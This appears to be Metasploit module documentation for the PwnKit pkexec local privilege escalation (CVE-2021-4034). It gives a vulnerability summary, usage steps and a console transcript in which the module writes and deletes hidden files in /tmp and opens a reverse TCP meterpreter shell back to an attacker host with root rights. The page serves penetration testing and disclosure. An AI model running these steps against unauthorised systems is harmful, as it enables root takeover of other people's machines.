 ## Summary

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to  execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

## Verification

* Start `msfconsole`
* Get a non-root shell/meterpreter
* use `exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec`
* set SESSION `<session-id>`
* set LHOST `<lhost-IP>`
* `run`

## Scenarios

```
msf6 exploit(multi/script/web_delivery) > 
[*] 172.16.30.21     web_delivery - Delivering Payload (497 bytes)
[*] Sending stage (39800 bytes) to 172.16.30.21
[*] Meterpreter session 1 opened (172.19.20.29:4444 -> 172.16.30.21:57038 ) at 2022-01-26 23:17:04 +0400

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: zero
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > options 

Module options (exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LPORT 5555
LPORT => 5555
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LHOST 172.19.20.29
LHOST => 172.19.20.29
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Started reverse TCP handler on 172.19.20.29:5555 
[*] Writing '/tmp/.qwxijs' (282 bytes) ...
[*] Executing exploit '/tmp/.ciobixe'
[*] Sending stage (3012548 bytes) to 172.16.30.21
[+] Deleted /tmp/.qwxijs
[+] Deleted /tmp/.ciobixe
[*] Exploit result:

[*] Meterpreter session 2 opened (172.19.20.29:5555 -> 172.16.30.21:53512 ) at 2022-01-26 23:17:36 +0400

meterpreter > getuid
Server username: root
meterpreter > background 
[*] Backgrounding session 2...
```

**Reference:** https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
